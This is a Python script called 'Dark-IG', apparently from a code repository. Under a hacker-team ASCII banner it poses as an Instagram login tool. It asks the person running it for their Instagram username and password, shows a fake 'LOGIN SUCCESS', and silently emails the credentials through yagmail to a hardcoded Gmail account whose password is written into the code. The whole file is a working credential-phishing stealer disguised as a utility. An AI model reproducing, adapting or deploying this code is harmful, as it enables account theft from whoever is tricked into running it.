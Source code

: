 # Dark-IG
# -*- coding: utf-8 -*-
# coding=utf-8
import socket,struct,os,sys,time,yagmail
x=yagmail.SMTP('hayyukklah@gmail.com','yahahahayyukk')
subject='Hasil UwU Mr.Forefax'
logo = """
\033[37;1m██████╗  █████╗ ██████╗ ██╗  ██╗     ██╗███╗   █>
\033[37;1m██╔══██╗██╔══██╗██╔══██╗██║ ██╔╝     ██║████╗  █>
\033[37;1m██║  ██║███████║██████╔╝█████╔╝█████╗██║██╔██╗ █>
\033[31;1m██║  ██║██╔══██║██╔══██╗██╔═██╗╚════╝██║██║╚██╗█>
\033[31;1m██████╔╝██║  ██║██║  ██║██║  ██╗     ██║██║ ╚███>
\033[31;1m╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝     ╚═╝╚═╝  ╚══>
\033[33;1m●❯────────────────❮●●❯────────────────❮●●❯──────>
\033[36;1m                    AUTHOR : Mr.Forefax
\033[36;1m                    MY TEAM : BLACKCYBERTEAM
\033[36;1m                    𝚃𝙾𝙾𝙻𝚂 : 𝙳𝙰𝚁𝙺-FAXX
\033[33;1m●❯────────────────❮●●❯────────────────❮●●❯──────>

"""
banner = """
\x1b[32m ✓ login Instagram
\x1b[32m ✓ Please login with your account \x1b[91m!
"""
def main():
        os.system('clear')
        print(logo)
        print(banner)
        print('\x1b[00m\033[41m LOGIN ACCOUNT \033[00m')
        u=input('\x1b[00mUsername: \x1b[33m')
        p=input('\x1b[00mPassword: \x1b[33m')
        msg=('username: '+u+', password: '+p)
        body=(msg)
        print('')
        print('\x1b[00mWAINTING...\x1b[36m !\x1b[00m')
        os.system('sleep 4')
        print('\x1b[32mLOGIN SUCCESS...')
        os.system('sleep 4')
        os.system('clear')
        os.system('sleep 2')
        print('')
        print('\x1b[00mExiting program \x1b[91m!')
        os.system('exit')
        x.send('hayyukklah@gmail.com',subject,body)

main()
